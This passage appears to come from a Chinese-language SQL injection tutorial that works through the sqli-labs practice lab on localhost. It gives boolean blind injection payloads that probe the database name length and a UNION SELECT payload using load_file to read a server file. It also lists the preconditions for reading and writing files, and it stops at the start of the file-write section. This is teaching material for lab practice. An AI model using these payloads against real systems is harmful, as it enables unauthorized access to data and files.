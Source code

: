 ```http
http://127.0.0.1/sqli/Less-8/?id=1'
```

* 加单引号发现错误界面  
![f16]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f16.png) 

### 利用返回的布尔值注入
#### 返回错误界面

```http
http://127.0.0.1/sqli/Less-8/?id=1' and length(database()) < 8 --+
```

#### 返回正确界面

```http
http://127.0.0.1/sqli/Less-8/?id=1' and length(database()) < 9 --+
```

#### 从而确定length(database())=8

***
## mysql读文件
### 前提
* 权限够高
* secure_file_priv不为NULL，需要通过my.ini修改
> ![f17]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f17.png)    
> $\color{red}{设置为空格即可}$    
> ![f18]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f18.png)  
> ![f19]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f19.png)

### 以less-1为例进行读文件

```http
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,load_file('F:\\flag.txt'),3 --+
```

![f20]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f20.png)

***
## mysql写文件
### 前提
* 权限够高
* 设置变量general_log为ON
> ![f21]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f21.png)

### 以less-7为例
#### 正确界面
![f22]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f22.png)
